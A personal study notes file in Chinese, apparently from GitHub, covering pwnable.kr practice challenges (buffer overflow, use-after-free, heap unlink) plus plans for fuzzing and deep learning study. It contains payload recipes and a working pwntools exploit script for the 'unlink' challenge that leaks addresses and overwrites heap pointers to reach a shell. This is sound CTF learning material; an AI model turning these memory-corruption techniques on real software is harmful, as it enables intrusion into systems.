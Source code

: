 # pwn kr
  - bof(buffer overflow)
    - gdb 调试显示 距离 52 + address
    - payload = 52 * 'A' + address
  - uaf(use after free)
    - main中定义了两个类，然后输入3先free掉
    - 在输入2中输入payload, 因为use after free
    - 其中注意下introduce函数是按栈的顺序进行的， payload要注意这一点
    - 所以我们需要再次分配下
    - 再输入payload后，在输入1，即可运行我们的payload
    - [参考链接](http://blog.csdn.net/qq_20307987/article/details/51511230)
  - unlink
    - 因为是双链表结构，
    - 所以溢出之后还需要把溢出后的地址改一下
    - poc如下
```python
from pwn import *
context(log_level="debug")

shell_addr = 0x080484eb

s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink")
p.recvuntil("here is stack address leak: ")
stack_addr = p.recv(10)
stack_addr = int(stack_addr,16)
p.recvuntil("here is heap address leak: ")
heap_addr = p.recv(9)
heap_addr = int(heap_addr,16)
payload = p32(shell_addr)
payload += 'a'*12
payload += p32(heap_addr + 12)
payload += p32(stack_addr + 0x10)
p.send(payload)
p.interactive()
```



# pwn测试步骤
  - [infer](http://fbinfer.com/docs/getting-started.html) 进行静态文件分析
  - afl或者自写的fuzz工具进行fuzz
  - 浏览器fuzz的工具有点无语
  - 学习一下google的fuzz工具以及相关东西
  - 手工的话就是去需要看代码,但是感觉看了也问题不大(主要是对c++等trick不熟，还是对web熟悉一点)
  - 趁着自动化fuzz的时间进行下一步android相关的学习，然后就是深度学习了
  
# 深度学习
  - 等书到了就看书，但感觉用处不大
  - 还有深度学习的原理不太想碰(有时间要去补补)
  - kaggle的手写字符集进行一次训练
  
# fuzz需要CPU和内存， 深度学习需要CPU，内存，显卡，硬盘
# 该去配台好机器，但感觉买了要去打游戏。。
